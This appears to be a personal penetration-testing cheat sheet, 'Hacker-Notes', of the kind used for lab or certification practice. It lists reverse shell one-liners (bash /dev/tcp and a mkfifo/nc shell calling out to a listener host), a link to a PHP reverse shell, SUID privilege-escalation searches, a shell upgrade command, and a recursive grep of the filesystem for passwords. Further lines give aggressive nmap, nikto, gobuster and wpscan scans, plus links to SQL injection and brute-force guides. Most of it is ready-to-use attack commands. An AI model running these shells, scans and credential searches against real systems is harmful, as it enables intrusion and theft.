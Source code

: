 # Hacker-Notes

PimpMyKali - https://github.com/Dewalt-arch/pimpmykali

Payloads - 

#!/bin/bash
bash -i >& /dev/tcp/172.16.1.1/443 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.19. 443 >/tmp/f

Windows reverse shell .php - https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

SUIDS etc

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;

nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oA full 192.168.180.96     

Intense Scan all tcp ports - nmap -p 1-65535 -T4 -A -v IP ADDRESS

Intense Scan UDP - nmap -sS -sU -T4 -A -v IP ADDRESS

SMB ENUM - nmap --script smb-enum-shares -p 139,445 IP ADDRESS

Vuln nmap scan - nmap --script vuln IP ADDRESS - https://www.bencode.net/posts/2018-08-10-cyber-cno-boot2root/

SQL injection cheat sheet - https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

MSSQL cheat sheet - https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

Hydra usage - https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

Fuzzing Paths and files - https://wfuzz.readthedocs.io/en/latest/user/basicusage.html

SMB scans - https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

SMB Map - https://tools.kali.org/information-gathering/smbmap

Null sessions RPC etc - https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

upgrade Python shell - python -c 'import pty; pty.spawn("/bin/bash")'

adding routes to kali - ip route add x.x.x.x. via x.x.x.x

nikto -host=http://10.10.10.29
dirb http://10.10.10.29
gobuster dir -u https://10.11.1.237/web1/web/ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.11.1.8 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
wpscan --url http://10.10.10.29/wordpress
find / -xdev -type f -print0 | xargs -0 grep -H "password"
